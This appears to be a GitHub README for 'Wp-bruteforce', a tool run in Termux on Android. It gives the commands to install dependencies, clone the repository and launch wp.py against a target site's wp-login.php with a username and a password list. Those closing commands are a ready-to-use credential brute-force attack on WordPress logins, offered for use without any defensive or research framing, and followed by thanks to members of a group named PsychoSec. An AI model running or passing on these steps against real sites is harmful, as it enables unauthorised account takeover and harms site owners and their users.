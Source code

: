 # Wp-bruteforce
- Using Termux
# Command Termux
- $pkg update && pkg upgrade
- $pkg install git
- $pkg install python
- $pkg install python2
- $git clone https://github.com/secrxth4xor/wp-bruteforce
- $cd wp-bruteforce
- $python2 wp.py -h [target.com/wp-login.php] -u [user] -P [listpass.txt] -v
# Thanks To :
- Secrxt@PsychoSec
- Grim@PsychoSec
- CyberGhost@PsychoSec
- And All Member PsychoSecExploit
